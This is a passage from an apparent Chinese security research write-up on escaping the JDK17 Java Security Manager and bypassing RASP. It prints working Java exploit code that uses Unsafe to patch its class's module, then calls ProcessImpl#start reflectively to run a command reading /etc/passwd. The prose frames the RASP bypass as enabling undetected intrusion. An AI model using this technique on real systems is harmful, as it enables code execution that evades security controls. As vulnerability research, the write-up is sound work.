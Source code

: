 到此，我们就实现了单文件绕过 JDK17、Java Security Manager 的限制实现任意代码执行

> 既然我们已经可以反射访问 `java.*`了，这里也可以直接反射调用 `java.lang.ProcessImpl#start`来绕过 Java Security Manager 的检查，而不用去赋予栈帧权限，代码如下：

```plain
public class ExpTest {

    static {
        try {

            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpTest.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

            String[] cmd = {"head", "-n", "5", "/etc/passwd"};
            Class clz = Class.forName("java.lang.ProcessImpl");
            Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
            method.setAccessible(true);
            Process process = (Process) method.invoke(clz, cmd, null, null, null, false);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

##   

## JNI 绕过 RASP

> 对于这个漏洞，是非常典型的“无特征”型的通用漏洞（此处是我自己下的定义：）），这是什么意思呢，即这个漏洞所有请求都是正常的业务行为，在 waf 层是无法防御的；
> 
> 在应用层上，就只能靠 rasp 去防御了，而对于此漏洞的调用链，也是没有明显通用特征的，由于漏洞利用的是 `create`/ `backup`/ `upload`这些业务常用的接口，所以 hook 这些方法可能对性能影响很大，就只能依赖于捕获攻击者后利用的调用方法了，例如 `Runtime.getRuntime().exec("calc");`之类的
> 
> 因此如果能实现命令执行绕过 rasp，也就基本实现了无感入侵

前置知识：JNI 实现 RCE：https://javasec.org/javase/JNI/

### 一次失败的尝试

> 在上文的基础上，我们赋予了所有栈帧全部权限，所以其实直接使用 `System.load()`去加载动态链接库就可以了；不过一开始我想通过一个另外的方法来实现

直接执行 `System.load()`的话，会受到 Java Security Manager 的限制，我们首先查看 `security.policy`，可以看到关于 `loadLibrary`的权限有如下几个：
